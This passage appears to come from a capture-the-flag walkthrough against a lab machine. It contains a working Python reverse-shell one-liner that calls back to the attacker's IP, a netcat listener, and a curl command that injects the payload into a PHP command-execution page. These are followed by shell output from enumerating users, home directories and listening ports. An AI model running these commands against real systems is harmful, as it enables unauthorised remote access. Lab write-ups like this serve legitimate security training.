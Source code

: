 `nano reversepayload`

```jsx
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.2.37.37",10111));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

`nc -nlvp 10111`

```jsx
listening on [any] 10111 ...
```

`curl -sG 'http://metamorphosis.thm/phprce.php' --data-urlencode "cmd=$(cat reversepayload)"`

```jsx
listening on [any] 10111 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.227.36] 48032

www-data@incognito:/var/www/html$ whoami
www-data
www-data@incognito:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@incognito:/var/www/html$ pwd
/var/www/html
www-data@incognito:/var/www/html$ SHELL=/bin/bash script -q /dev/null
www-data@incognito:/var/www/html$ export TERM=xterm

www-data@incognito:/var/www/html$ uname -a
Linux incognito 4.15.0-144-generic #148-Ubuntu SMP Sat May 8 02:33:43 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
www-data@incognito:/var/www/html$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

www-data@incognito:/var/www/html$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
tom:x:1000:1001::/home/tom:/bin/bash

www-data@incognito:/var/www/html$ ls -lsa /home
total 12
4 drwxr-xr-x  3 root root 4096 Apr 10  2021 .
4 drwxr-xr-x 24 root root 4096 Jun  9  2021 ..
4 drwxr-xr-x  5 tom  tom  4096 Jun  9  2021 tom

www-data@incognito:/var/www/html$ 
```

> **Internal System Investigation Phase**
> 

```jsx
www-data@incognito:/var/www/html$ ss -tulwn
Netid State   Recv-Q  Send-Q          Local Address:Port     Peer Address:Port  
icmp6 UNCONN  0       0                      *%eth0:58                  *:*     
udp   UNCONN  0       0           10.10.227.36%eth0:68            0.0.0.0:*     
udp   UNCONN  0       0               10.10.255.255:137           0.0.0.0:*     
udp   UNCONN  0       0                10.10.227.36:137           0.0.0.0:*     
udp   UNCONN  0       0                     0.0.0.0:137           0.0.0.0:*     
udp   UNCONN  0       0               10.10.255.255:138           0.0.0.0:*     
udp   UNCONN  0       0                10.10.227.36:138           0.0.0.0:*     
udp   UNCONN  0       0                     0.0.0.0:138           0.0.0.0:*     
udp   UNCONN  0       0               127.0.0.53%lo:53            0.0.0.0:*     
tcp   LISTEN  0       128                 127.0.0.1:1027          0.0.0.0:*     
tcp   LISTEN  0       5                     0.0.0.0:873           0.0.0.0:*     
tcp   LISTEN  0       80                  127.0.0.1:3306          0.0.0.0:*     
tcp   LISTEN  0       50                    0.0.0.0:139           0.0.0.0:*     
```